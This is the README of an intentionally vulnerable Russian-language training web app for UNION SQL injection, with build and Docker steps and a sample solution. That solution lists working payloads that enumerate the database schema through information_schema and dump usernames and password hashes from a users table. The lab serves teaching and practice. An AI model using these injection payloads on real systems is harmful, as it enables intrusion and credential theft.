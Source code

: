 # UNION SQL-инъекция

Данное веб-приложение создано для демонстрации простой UNION SQL-инъекции и представляет собой тренировочное задание. Его цель — разместить новость на главной странице сайта.

Можно добавить элемент соревнования и проводить выполнение задания несколькими людьми на скорость, кто первый запостит новость со своим именем, тот и победил.

Приложение оформлено в виде Docker-образа, однако может использоваться и отдельно.


## Сборка из исходных кодов

**Системные требования:**

* GNU Make
* Node.js, NPM
* PHP

**Как собирать:**

```sh
make
```

Результаты сборки помещаются в папку `build`. Проект поддерживает параллелизацию сборки (`make -jN`).


## Развёртывание и использование

```sh
cd build && docker build .
docker container create <id_образа>
docker container start <id_контейнера>
```

Веб-сервер будет прослушивать HTTP на порте 80.


## Пример решения задания

Уязвимым является поле поиска новостей.

1. Подбор количества полей в исходном запросе:

    ```sql
    … UNION SELECT 1,2,3,4,5 -- foo
    ```

2. Получения имени базы данных:

    ```sql
    … UNION SELECT 1,DATABASE(),3,4,5 -- bar
    ```

3. Получение таблиц данной базы данных:

    ```sql
    … UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables WHERE table_schema='sqlinj' -- baz
    ```

4. Получение столбцов таблиц:

    ```sql
    … UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_schema='sqlinj' AND table_name='config' -- spam
    … UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_schema='sqlinj' AND table_name='nyoows' -- tuna
    … UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_schema='sqlinj' AND table_name='uzwers' -- fish
    ```

5. Получение списка пользователей:

    ```sql
    … UNION SELECT 1,username,password,4,5 FROM uzwers -- moo
    ```

6. Ломаем хеш, заходим под пользователем, размещаем новость.
7. ?????
8. PROFIT!
